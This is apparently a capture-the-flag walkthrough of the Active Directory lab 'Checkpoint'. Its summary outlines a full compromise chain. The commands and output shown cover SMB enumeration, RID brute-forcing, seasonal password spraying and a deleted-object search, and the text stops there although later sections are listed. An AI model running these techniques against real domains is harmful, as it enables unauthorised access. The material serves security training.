


## Table of Contents

- [Summary](#Summary)
- [Machine Information](#Machine-Information)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
- [Password Spraying Part 1](#Password-Spraying-Part-1)
- [Time and Date Synchronization](#Time-and-Date-Synchronization)
- [Kerberos Environment](#Kerberos-Environment)
- [Active Directory Configuration Dump using RustHound](#Active-Directory-Configuration-Dump-using-RustHound)
- [Privilege Escalation to mark.davies](#Privilege-Escalation-to-markdavies)
    - [Active Directory Tombstones Deleted Object Restore](#Active-Directory-Tombstones-Deleted-Object-Restore)
- [Password Spraying Part 2](#Password-Spraying-Part-2)
- [Privilege Escalation to ryan.brooks](#Privilege-Escalation-to-ryanbrooks)
    - [Malicious Visual Studio Code Extension](#Malicious-Visual-Studio-Code-Extension)
- [user.txt](#usertxt)
- [Enumeration (ryan.brooks)](#Enumeration-ryanbrooks)
- [Privilege Escalation to svc_deploy](#Privilege-Escalation-to-svc_deploy)
    - [BadSuccessor: delegated Managed Service Account (dMSA) Abuse](#BadSuccessor-delegated-Managed-Service-Account-dMSA-Abuse)
- [Privilege Escalation to System](#Privilege-Escalation-to-System)
    - [Credential Extraction using Volatility3](#Credential-Extraction-using-Volatility3)
- [root.txt](#roottxt)
- [Post Exploitation](#Post-Exploitation)

## Summary

The box starts as an Assume Breach scenario with valid domain credentials for `alex.turner` in the `checkpoint.htb` `Active Directory` (`AD`) environment. The `Nmap` scan reveals a standard `AD` port profile running on `Windows Server 2025`.

`SMB` share enumeration reveals a non-standard `DevDrop` share described as a `VS Code` extensions drop point. `RID` brute-forcing enumerates all domain accounts, forming the basis for a custom password spray wordlist. The spray against all enumerated users yields credentials for ten accounts sharing the password `Summer2024!`.

`BloodHound` enumeration via `RustHound-CE` maps the domain. `bloodyAD` confirms that `alex.turner` holds `CREATE_CHILD` rights over `OU=Employees` and is used with the `msldap` branch to search the `CN=Deleted Objects` container, which reveals a deleted user `mark.davies`. The account is restored from the `Active Directory` tombstone to `OU=Employees`. A second password spray against `mark.davies` recovers the password `Checkpoint2024!`, and re-enumerating shares as `mark.davies` shows he has `READ/WRITE` access to the `DevDrop` share — as opposed to the `READ`-only access held by `alex.turner`.

With write access to `DevDrop`, a malicious `Visual Studio Code` (`VSCode`) extension is crafted and uploaded. The extension fetches a staged `Node.js` `C2` payload (`stage.js`) over `HTTP` from the attacker machine and executes it, establishing a session via the `SimpleC2` server as `ryan.brooks` — confirming a developer on the target is periodically installing extensions from the share.

`BloodHound` shows `ryan.brooks` holds `GenericWrite` over multiple `Organisational Units` (`OUs`) in `checkpoint.htb`, making him a viable candidate for the `BadSuccessor` (`dMSA` abuse) technique. A `TGT` is extracted from the `ryan.brooks` session via `Rubeus tgtdeleg`, converted to `.ccache` format, and used on the attacker machine. `SharpSuccessor` is then used to create and weaponise a `delegated Managed Service Account` (`dMSA`) object named `foobar$` in `OU=DMSAHolder`, setting `svc_deploy` as the superseded account. `Rubeus asktgs` with the `/dmsa` flag requests a `TGS` for `foobar$` that inherits `svc_deploy`'s privileges, granting access to the `VMBackups` share previously inaccessible.

The `VMBackups` share contains a `NightlyBackup` directory with a `VMware` memory snapshot (`Windows Server 2019-Snapshot1.vmem`). The snapshot is downloaded and analysed with `Volatility3`, which extracts the local `SAM` hashes including `Administrator:f29e9c014295b9b32139b09a2790be3b`. `Pass-the-Hash` via `Evil-WinRM` authenticates as `Administrator` on `DC01`, and `root.txt` is retrieved from `max.palmer`'s desktop.

## Machine Information

As is common in real life pentests, you will start the Checkpoint box with credentials for the following account `alex.turner / Checkpoint2024!`

## Reconnaissance

### Port Scanning

We ran `Nmap` against the target which identified a standard `Active Directory` port profile with the domain `checkpoint.htb` and `DC01` as the Domain Controller. A `clock skew` of approximately seven hours was noted, indicating `Kerberos` time synchronisation would be required before any ticket-based operations. Port `5985/TCP` confirmed `WinRM` was available.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.21.94
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-06-13 21:06 +0200
Nmap scan report for 10.129.21.94
Host is up (0.021s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-06-14 02:06:27Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: checkpoint.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: checkpoint.htb, Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
5985/tcp open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m59s
| smb2-time: 
|   date: 2026-06-14T02:06:36
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.10 seconds
```

We added both `checkpoint.htb` and `DC01.checkpoint.htb` to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.21.94    checkpoint.htb
10.129.21.94    DC01.checkpoint.htb
```

### Enumeration of Port 445/TCP

Using the provided credentials we authenticated to `SMB` and enumerated available shares. Two non-standard shares stood out: `DevDrop` — described as a `VS Code` extensions share for approved `.vsix` packages — and `VMBackups`, which was listed without a remark and without visible permissions for `alex.turner`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ netexec smb 10.129.21.94 -u 'alex.turner' -p 'Checkpoint2024!' --shares
SMB         10.129.21.94    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.21.94    445    DC01             [+] checkpoint.htb\alex.turner:Checkpoint2024! 
SMB         10.129.21.94    445    DC01             [*] Enumerated shares
SMB         10.129.21.94    445    DC01             Share           Permissions     Remark
SMB         10.129.21.94    445    DC01             -----           -----------     ------
SMB         10.129.21.94    445    DC01             ADMIN$                          Remote Admin
SMB         10.129.21.94    445    DC01             C$                              Default share
SMB         10.129.21.94    445    DC01             DevDrop         READ            VS Code extensions share for approved .vsix packages compatible with VS Code engine 1.118.0
SMB         10.129.21.94    445    DC01             IPC$            READ            Remote IPC
SMB         10.129.21.94    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.21.94    445    DC01             SYSVOL          READ            Logon server share 
SMB         10.129.21.94    445    DC01             VMBackups
```

Browsing the `DevDrop` share showed it was currently empty.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ smbclient //10.129.21.94/DevDrop -U 'alex.turner'
Password for [WORKGROUP\alex.turner]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue May 26 23:45:01 2026
  ..                                  D        0  Sat May  9 16:42:27 2026

                10459391 blocks of size 4096. 2468455 blocks available
```

We used `RID` brute-forcing to enumerate all domain accounts. The output revealed seventeen user accounts alongside the standard built-in accounts and several domain groups.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ netexec smb 10.129.21.94 -u 'alex.turner' -p 'Checkpoint2024!' --rid-brute
SMB         10.129.21.94    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.21.94    445    DC01             [+] checkpoint.htb\alex.turner:Checkpoint2024! 
SMB         10.129.21.94    445    DC01             498: CHECKPOINT\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.21.94    445    DC01             500: CHECKPOINT\Administrator (SidTypeUser)
SMB         10.129.21.94    445    DC01             501: CHECKPOINT\Guest (SidTypeUser)
SMB         10.129.21.94    445    DC01             502: CHECKPOINT\krbtgt (SidTypeUser)
SMB         10.129.21.94    445    DC01             512: CHECKPOINT\Domain Admins (SidTypeGroup)
SMB         10.129.21.94    445    DC01             513: CHECKPOINT\Domain Users (SidTypeGroup)
SMB         10.129.21.94    445    DC01             514: CHECKPOINT\Domain Guests (SidTypeGroup)
SMB         10.129.21.94    445    DC01             515: CHECKPOINT\Domain Computers (SidTypeGroup)
SMB         10.129.21.94    445    DC01             516: CHECKPOINT\Domain Controllers (SidTypeGroup)
SMB         10.129.21.94    445    DC01             517: CHECKPOINT\Cert Publishers (SidTypeAlias)
SMB         10.129.21.94    445    DC01             518: CHECKPOINT\Schema Admins (SidTypeGroup)
SMB         10.129.21.94    445    DC01             519: CHECKPOINT\Enterprise Admins (SidTypeGroup)
SMB         10.129.21.94    445    DC01             520: CHECKPOINT\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.21.94    445    DC01             521: CHECKPOINT\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.21.94    445    DC01             522: CHECKPOINT\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.21.94    445    DC01             525: CHECKPOINT\Protected Users (SidTypeGroup)
SMB         10.129.21.94    445    DC01             526: CHECKPOINT\Key Admins (SidTypeGroup)
SMB         10.129.21.94    445    DC01             527: CHECKPOINT\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.21.94    445    DC01             528: CHECKPOINT\Forest Trust Accounts (SidTypeGroup)
SMB         10.129.21.94    445    DC01             529: CHECKPOINT\External Trust Accounts (SidTypeGroup)
SMB         10.129.21.94    445    DC01             553: CHECKPOINT\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.21.94    445    DC01             571: CHECKPOINT\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.21.94    445    DC01             572: CHECKPOINT\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.21.94    445    DC01             1000: CHECKPOINT\DC01$ (SidTypeUser)
SMB         10.129.21.94    445    DC01             1101: CHECKPOINT\alex.turner (SidTypeUser)
SMB         10.129.21.94    445    DC01             1103: CHECKPOINT\ryan.brooks (SidTypeUser)
SMB         10.129.21.94    445    DC01             1104: CHECKPOINT\svc_deploy (SidTypeUser)
SMB         10.129.21.94    445    DC01             1105: CHECKPOINT\IT-Staff (SidTypeGroup)
SMB         10.129.21.94    445    DC01             1106: CHECKPOINT\Finance-Staff (SidTypeGroup)
SMB         10.129.21.94    445    DC01             1107: CHECKPOINT\HR-Staff (SidTypeGroup)
SMB         10.129.21.94    445    DC01             1108: CHECKPOINT\Engineering-Staff (SidTypeGroup)
SMB         10.129.21.94    445    DC01             1109: CHECKPOINT\VPN-Users (SidTypeGroup)
SMB         10.129.21.94    445    DC01             1110: CHECKPOINT\DevTeam (SidTypeGroup)
SMB         10.129.21.94    445    DC01             1111: CHECKPOINT\james.harper (SidTypeUser)
SMB         10.129.21.94    445    DC01             1112: CHECKPOINT\sarah.mitchell (SidTypeUser)
SMB         10.129.21.94    445    DC01             1113: CHECKPOINT\emily.carter (SidTypeUser)
SMB         10.129.21.94    445    DC01             1114: CHECKPOINT\david.reynolds (SidTypeUser)
SMB         10.129.21.94    445    DC01             1115: CHECKPOINT\jessica.coleman (SidTypeUser)
SMB         10.129.21.94    445    DC01             1116: CHECKPOINT\lauren.flores (SidTypeUser)
SMB         10.129.21.94    445    DC01             1117: CHECKPOINT\michael.torres (SidTypeUser)
SMB         10.129.21.94    445    DC01             1118: CHECKPOINT\kevin.patterson (SidTypeUser)
SMB         10.129.21.94    445    DC01             1119: CHECKPOINT\brian.jenkins (SidTypeUser)
SMB         10.129.21.94    445    DC01             1120: CHECKPOINT\megan.perry (SidTypeUser)
SMB         10.129.21.94    445    DC01             1121: CHECKPOINT\DnsAdmins (SidTypeAlias)
SMB         10.129.21.94    445    DC01             1122: CHECKPOINT\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.21.94    445    DC01             1123: CHECKPOINT\BackupAccess (SidTypeGroup)
```

The `SidTypeUser` entries were extracted and cleaned to produce a username list for password spraying.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ netexec smb 10.129.21.94 -u 'alex.turner' -p 'Checkpoint2024!' --rid-brute | grep 'SidTypeUser' | awk '{print $6}'  | awk -F '\\' '{print $2}'
Administrator
Guest
krbtgt
DC01$
alex.turner
ryan.brooks
svc_deploy
james.harper
sarah.mitchell
emily.carter
david.reynolds
jessica.coleman
lauren.flores
michael.torres
kevin.patterson
brian.jenkins
megan.perry
```

## Password Spraying Part 1

Based on the box name `Checkpoint` and the provided credential `Checkpoint2024!`, we assembled a seasonal password wordlist following the pattern of the known password to target likely password rotation policies.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ cat passwords.txt 
Checkpoint2021!
Checkpoint2022!
Checkpoint2023!
Checkpoint2024!
Checkpoint2025!
Checkpoint2026!
Spring2024!
Summer2024!
Autumn2024!
Winter2024!
```

The spray against all enumerated users with `--continue-on-success` identified ten accounts sharing the password `Summer2024!`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ netexec ldap 10.129.21.94 -u usernames.txt -p passwords.txt --continue-on-success                         
LDAP        10.129.21.94    389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:checkpoint.htb) (signing:Enforced) (channel binding:No TLS cert)
<--- CUT FOR BREVITY --->
LDAP        10.129.21.94    389    DC01             [+] checkpoint.htb\james.harper:Summer2024! 
LDAP        10.129.21.94    389    DC01             [+] checkpoint.htb\sarah.mitchell:Summer2024! 
LDAP        10.129.21.94    389    DC01             [+] checkpoint.htb\emily.carter:Summer2024! 
LDAP        10.129.21.94    389    DC01             [+] checkpoint.htb\david.reynolds:Summer2024! 
LDAP        10.129.21.94    389    DC01             [+] checkpoint.htb\jessica.coleman:Summer2024! 
LDAP        10.129.21.94    389    DC01             [+] checkpoint.htb\lauren.flores:Summer2024! 
LDAP        10.129.21.94    389    DC01             [+] checkpoint.htb\michael.torres:Summer2024! 
LDAP        10.129.21.94    389    DC01             [+] checkpoint.htb\kevin.patterson:Summer2024! 
LDAP        10.129.21.94    389    DC01             [+] checkpoint.htb\brian.jenkins:Summer2024! 
LDAP        10.129.21.94    389    DC01             [+] checkpoint.htb\megan.perry:Summer2024!
<--- CUT FOR BREVITY --->
```

| Username        | Password    |
| --------------- | ----------- |
| james.harper    | Summer2024! |
| sarah.mitchell  | Summer2024! |
| emily.carter    | Summer2024! |
| david.reynolds  | Summer2024! |
| jessica.coleman | Summer2024! |
| lauren.flores   | Summer2024! |
| michael.torres  | Summer2024! |
| kevin.patterson | Summer2024! |
| brian.jenkins   | Summer2024! |
| megan.perry     | Summer2024! |

## Time and Date Synchronization

Given the seven-hour clock skew reported by `Nmap`, `Kerberos` authentication would fail without first synchronising our local clock with the Domain Controller. We stopped `systemd-timesyncd` and set the clock against `DC01`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo systemctl stop systemd-timesyncd
[sudo] password for kali:
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo net time set -S 10.129.21.94
```

## Kerberos Environment

A `krb5.conf` was generated via `NetExec` to configure the `Kerberos` realm for `checkpoint.htb`, and a `TGT` was obtained for `alex.turner`.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ netexec smb 10.129.21.94 -u 'alex.turner' -p 'Checkpoint2024!' --generate-krb5-file ./krb5.conf
SMB         10.129.21.94    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.21.94    445    DC01             [+] krb5 conf saved to: ./krb5.conf
SMB         10.129.21.94    445    DC01             [+] Run the following command to use the conf file: export KRB5_CONFIG=./krb5.conf
SMB         10.129.21.94    445    DC01             [+] checkpoint.htb\alex.turner:Checkpoint2024! 
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ cat krb5.conf 
[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = CHECKPOINT.HTB

[realms]
    CHECKPOINT.HTB = {
        kdc = dc01.checkpoint.htb
        admin_server = dc01.checkpoint.htb
        default_domain = checkpoint.htb
    }

[domain_realm]
    .checkpoint.htb = CHECKPOINT.HTB
    checkpoint.htb = CHECKPOINT.HTB
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ export KRB5_CONFIG=./krb5.conf
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ impacket-getTGT checkpoint.htb/alex.turner:'Checkpoint2024!'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in alex.turner.ccache
```

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ export KRB5CCNAME=alex.turner.ccache
```

## Active Directory Configuration Dump using RustHound

With a valid `TGT` loaded, `RustHound-CE` was used to collect `BloodHound` data from `checkpoint.htb`, returning 18 users, 70 groups and 1 computer.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ rusthound-ce -d checkpoint.htb -f DC01.checkpoint.htb -k -c All --zip                                      
---------------------------------------------------
Initializing RustHound-CE at 04:40:04 on 06/14/26
Powered by @g0h4n_0
---------------------------------------------------

[2026-06-14T02:40:04Z INFO  rusthound_ce] Verbosity level: Info
[2026-06-14T02:40:04Z INFO  rusthound_ce] Collection method: All
[2026-06-14T02:40:04Z INFO  rusthound_ce::ldap] Connected to CHECKPOINT.HTB Active Directory!
[2026-06-14T02:40:04Z INFO  rusthound_ce::ldap] Starting data collection...
[2026-06-14T02:40:04Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2026-06-14T02:40:05Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=checkpoint,DC=htb
[2026-06-14T02:40:05Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2026-06-14T02:40:05Z INFO  rusthound_ce::ldap] All data collected for NamingContext CN=Configuration,DC=checkpoint,DC=htb
[2026-06-14T02:40:05Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2026-06-14T02:40:06Z INFO  rusthound_ce::ldap] All data collected for NamingContext CN=Schema,CN=Configuration,DC=checkpoint,DC=htb
[2026-06-14T02:40:06Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2026-06-14T02:40:07Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=DomainDnsZones,DC=checkpoint,DC=htb
[2026-06-14T02:40:07Z INFO  rusthound_ce::ldap] Ldap filter : (objectClass=*)
[2026-06-14T02:40:07Z INFO  rusthound_ce::ldap] All data collected for NamingContext DC=ForestDnsZones,DC=checkpoint,DC=htb
[2026-06-14T02:40:07Z INFO  rusthound_ce::api] Starting the LDAP objects parsing...
[2026-06-14T02:40:07Z INFO  rusthound_ce::api] Parsing LDAP objects finished!
[2026-06-14T02:40:07Z INFO  rusthound_ce::json::checker] Starting checker to replace some values...
[2026-06-14T02:40:07Z INFO  rusthound_ce::json::checker] Checking and replacing some values finished!
[2026-06-14T02:40:07Z INFO  rusthound_ce::json::maker::common] 18 users parsed!
[2026-06-14T02:40:07Z INFO  rusthound_ce::json::maker::common] 70 groups parsed!
[2026-06-14T02:40:07Z INFO  rusthound_ce::json::maker::common] 1 computers parsed!
[2026-06-14T02:40:07Z INFO  rusthound_ce::json::maker::common] 8 ous parsed!
[2026-06-14T02:40:07Z INFO  rusthound_ce::json::maker::common] 1 domains parsed!
[2026-06-14T02:40:07Z INFO  rusthound_ce::json::maker::common] 2 gpos parsed!
[2026-06-14T02:40:07Z INFO  rusthound_ce::json::maker::common] 73 containers parsed!
[2026-06-14T02:40:07Z INFO  rusthound_ce::json::maker::common] .//20260614044007_checkpoint-htb_rusthound-ce.zip created!

RustHound-CE Enumeration Completed at 04:40:07 on 06/14/26! Happy Graphing!
```

## Privilege Escalation to mark.davies

### Active Directory Tombstones Deleted Object Restore

`Active Directory` retains deleted objects in a special container called `CN=Deleted Objects` for a configurable period known as the tombstone lifetime (default 180 days). During this period the object exists in a soft-deleted state — most attributes are stripped but the `objectGUID`, `sAMAccountName` and `distinguishedName` are preserved. An account with sufficient write access to the parent `OU` can restore a tombstoned object using the `LDAP_SERVER_SHOW_DELETED_OID` control (`1.2.840.113556.1.4.417`) to make deleted objects visible in search results, and then modify the `isDeleted` and `distinguishedName` attributes to move the object back into the live directory. Once restored, the account is functional again and can be targeted by further attacks such as password spraying.

`bloodyAD` confirmed that `alex.turner` held `CREATE_CHILD` rights over `OU=Employees`, along with write access to his own object. The `msldap` branch of `bloodyAD` was required to search the `CN=Deleted Objects` container using the `LDAP_SERVER_SHOW_DELETED_OID` control, which revealed a deleted user `mark.davies` with its `objectGUID` preserved.

```shell
┌──(kali㉿kali)-[/mnt/…/HTB/Machines/Checkpoint/files]
└─$ bloodyAD --host DC01.checkpoint.htb -d checkpoint.htb -u alex.turner -p 'Checkpoint2024!' get writable --detail

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=checkpoint,DC=htb
url: WRITE
wWWHomePage: WRITE

distinguishedName: OU=Employees,DC=checkpoint,DC=htb
device: CREATE_CHILD
ipNetwork: CREATE_CHILD
organizationalUnit: CREATE_CHILD
intellimirrorGroup: CREATE_CHILD
msImaging-PSPs: CREATE_CHILD
msCOM-PartitionSet: CREATE_CHILD
remoteStorageServicePoint: CREATE_CHILD
nTFRSSettings: CREATE_CHILD
remoteMailRecipient: CREATE_CHILD
msTAPI-RtConference: CREATE_CHILD
inetOrgPerson: CREATE_CHILD
domainPolicy: CREATE_CHILD
msTAPI-RtPerson: CREATE_CHILD
msDS-App-Configuration: CREATE_CHILD
container: CREATE_CHILD
printQueue: CREATE_CHILD
indexServerCatalog: CREATE_CHILD
ipsecPolicy: CREATE_CHILD
volume: CREATE_CHILD
groupOfNames: CREATE_CHILD
msDS-ManagedServiceAccount: CREATE_CHILD
contact: CREATE_CHILD
msieee80211-Policy: CREATE_CHILD
document: CREATE_CHILD
person: CREATE_CHILD
mSMQMigratedUser: CREATE_CHILD
mS-SQL-OLAPServer: CREATE_CHILD
mS-SQL-SQLServer: CREATE_CHILD
organizationalPerson: CREATE_CHILD
msExchConfigurationContainer: CREATE_CHILD
msDS-GroupManagedServiceAccount: CREATE_CHILD
nisMap: CREATE_CHILD
nisObject: CREATE_CHILD
groupPolicyContainer: CREATE_CHILD
msDS-AzAdminManager: CREATE_CHILD
room: CREATE_CHILD
ipService: CREATE_CHILD
ipProtocol: CREATE_CHILD
msPKI-Key-Recovery-Agent: CREATE_CHILD
applicationVersion: CREATE_CHILD
residentialPerson: CREATE_CHILD
msMQ-Group: CREATE_CHILD
group: CREATE_CHILD
oncRpc: CREATE_CHILD
serviceConnectionPoint: CREATE_CHILD
msDS-AppData: CREATE_CHILD
rRASAdministrationConnectionPoint: CREATE_CHILD
locality: CREATE_CHILD
msDS-ShadowPrincipalContainer: CREATE_CHILD
classStore: CREATE_CHILD
account: CREATE_CHILD
user: CREATE_CHILD
msMQ-Custom-Recipient: CREATE_CHILD
rFC822LocalPart: CREATE_CHILD
groupOfUniqueNames: CREATE_CHILD
ipsecNegotiationPolicy: CREATE_CHILD
ipsecNFA: CREATE_CHILD
documentSeries: CREATE_CHILD
rpcContainer: CREATE_CHILD
serviceAdministrationPoint: CREATE_CHILD
msDS-DelegatedManagedServiceAccount: CREATE_CHILD
intellimirrorSCP: CREATE_CHILD
organizationalRole: CREATE_CHILD
msCOM-Partition: CREATE_CHILD
ipsecFilter: CREATE_CHILD
physicalLocation: CREATE_CHILD
computer: CREATE_CHILD
nisNetgroup: CREATE_CHILD
applicationEntity: CREATE_CHILD
dSA: CREATE_CHILD
ipsecISAKMPPolicy: CREATE_CHILD

distinguishedName: CN=Alex Turner,OU=Employees,DC=checkpoint,DC=htb
thumbnailPhoto: WRITE
pager: WRITE
mobile: WRITE
homePhone: WRITE
userSMIMECertificate: WRITE
msDS-ExternalDirectoryObjectId: WRITE
msDS-cloudExtensionAttribute20: WRITE
msDS-cloudExtensionAttribute19: WRITE
msDS-cloudExtensionAttribute18: WRITE
msDS-cloudExtensionAttribute17: WRITE
msDS-cloudExtensionAttribute16: WRITE
msDS-cloudExtensionAttribute15: WRITE
msDS-cloudExtensionAttribute14: WRITE
msDS-cloudExtensionAttribute13: WRITE
msDS-cloudExtensionAttribute12: WRITE
msDS-cloudExtensionAttribute11: WRITE
msDS-cloudExtensionAttribute10: WRITE
msDS-cloudExtensionAttribute9: WRITE
msDS-cloudExtensionAttribute8: WRITE
msDS-cloudExtensionAttribute7: WRITE
msDS-cloudExtensionAttribute6: WRITE
msDS-cloudExtensionAttribute5: WRITE
msDS-cloudExtensionAttribute4: WRITE
msDS-cloudExtensionAttribute3: WRITE
msDS-cloudExtensionAttribute2: WRITE
msDS-cloudExtensionAttribute1: WRITE
msDS-GeoCoordinatesLongitude: WRITE
msDS-GeoCoordinatesLatitude: WRITE
msDS-GeoCoordinatesAltitude: WRITE
msDS-AllowedToActOnBehalfOfOtherIdentity: WRITE
msPKI-CredentialRoamingTokens: WRITE
msDS-FailedInteractiveLogonCountAtLastSuccessfulLogon: WRITE
msDS-FailedInteractiveLogonCount: WRITE
msDS-LastFailedInteractiveLogonTime: WRITE
msDS-LastSuccessfulInteractiveLogonTime: WRITE
msDS-SupportedEncryptionTypes: WRITE
msPKIAccountCredentials: WRITE
msPKIDPAPIMasterKeys: WRITE
msPKIRoamingTimeStamp: WRITE
mSMQDigests: WRITE
mSMQSignCertificates: WRITE
userSharedFolderOther: WRITE
userSharedFolder: WRITE
url: WRITE
otherIpPhone: WRITE
ipPhone: WRITE
assistant: WRITE
primaryInternationalISDNNumber: WRITE
primaryTelexNumber: WRITE
otherMobile: WRITE
otherFacsimileTelephoneNumber: WRITE
userCert: WRITE
homePostalAddress: WRITE
personalTitle: WRITE
wWWHomePage: WRITE
otherHomePhone: WRITE
streetAddress: WRITE
otherPager: WRITE
info: WRITE
otherTelephone: WRITE
userCertificate: WRITE
preferredDeliveryMethod: WRITE
registeredAddress: WRITE
internationalISDNNumber: WRITE
x121Address: WRITE
facsimileTelephoneNumber: WRITE
teletexTerminalIdentifier: WRITE
telexNumber: WRITE
telephoneNumber: WRITE
physicalDeliveryOfficeName: WRITE
postOfficeBox: WRITE
postalCode: WRITE
postalAddress: WRITE
street: WRITE
st: WRITE
l: WRITE
c: WRITE
```

- [https://github.com/CravateRouge/bloodyAD/tree/msldap](https://github.com/CravateRouge/bloodyAD/tree/msldap)

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/bloodyAD-msldap]
└─$ python3 bloodyAD.py --host DC01.checkpoint.htb -d checkpoint.htb -u alex.turner -p 'Checkpoint2024!' get search --base 'CN=Deleted Objects,DC=checkpoint,DC=htb' --filter '(objectClass=user)' --attr 'sAMAccountName,distinguishedName,objectGUID' -c 1.2.840.113556.1.4.417

distinguishedName: CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,CN=Deleted Objects,DC=checkpoint,DC=htb
objectGUID: 2217e877-e2a2-47d7-91d4-99ede36f367e
sAMAccountName: mark.davies
```

| Username    |
| ----------- |
| mark.davies |

